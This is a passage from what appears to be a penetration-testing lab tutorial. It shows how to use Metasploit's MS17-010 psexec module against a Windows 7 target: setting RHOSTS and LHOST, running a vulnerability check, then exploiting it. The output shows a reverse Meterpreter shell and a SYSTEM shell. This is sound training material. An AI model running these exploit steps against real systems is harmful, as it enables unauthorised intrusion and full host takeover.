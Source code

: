 ```shell
...SNIP...

```

Any option with `Required` set to `yes` needs to be set for the exploit to work. In this case, we only have two options to set: `RHOSTS`, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). We can set them with the `set` command:

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0

```

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.

```

As we can see, the server is indeed vulnerable. Note that not every exploit in the `Metasploit Framework` supports the `check` function. Finally, we can use the `run` or `exploit` command to run the exploit:

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM

```
